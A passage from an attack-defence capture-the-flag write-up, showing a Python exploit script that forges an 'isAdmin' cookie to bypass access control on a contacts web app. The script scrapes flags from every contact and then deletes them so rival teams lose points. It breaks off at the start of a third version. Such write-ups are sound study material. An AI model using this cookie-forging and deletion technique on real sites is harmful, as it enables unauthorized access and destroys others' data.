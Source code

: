 
Here is the second iteration of the exploit:
```python
#!/usr/bin/python3
import os
import requests
import re
import string
import random
import time

host = os.getenv("TARGET_IP")

def gen_rand():
    return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(20))

s = requests.Session()
s.cookies.set("settings", "isAdmin:1", domain=host)
data = {
    "username": gen_rand(),
    "password": gen_rand()
}

r = s.post(f"https://{host}/register", data=data)
#r = s.get(f"https://{host}/") -- this line is not needed as the register request follows the redirect and returns the same information
ids = list(set(re.findall(r"[a-f0-9]{24}", r.text)))
while len(ids)==0:
    time.sleep(3)
    r = s.get(f"https://{host}/")
    ids = list(set(re.findall(r"[a-f0-9]{24}", r.text)))

for id in ids:
    r = s.get(f"https://{host}/edit/{id}")
    flags = re.findall(r"TEAM\d{3}_[A-Z0-9]{32}", r.text)
    for flag in flags:
        print(flag)
for id in ids:
    r = s.get(f"https://{host}/delete/{id}")
```

The first change we made was to avoid using the flag_ids data. Often it would be outdated when you attempt to use it as the flags will already be deleted. Instead we relied on the index of the app when viewed with the cookie, this showed all contacts from the application.

If no contacts are on the app we wait 3 seconds and try again and keep doing so until one does appear. This is good because we avoid losing time rerunning the script and registering a new account.

When we have ids from the index we check all of them straight away.
Only after we have checked them do we make the delete requests, preventing others from getting the points comes after we've secured points ourselves.

Third iteration:
```python
#!/usr/bin/python3
import os
import requests
import re
import string
import random
import time
from sys import argv

host=argv[1]

def gen_rand():
```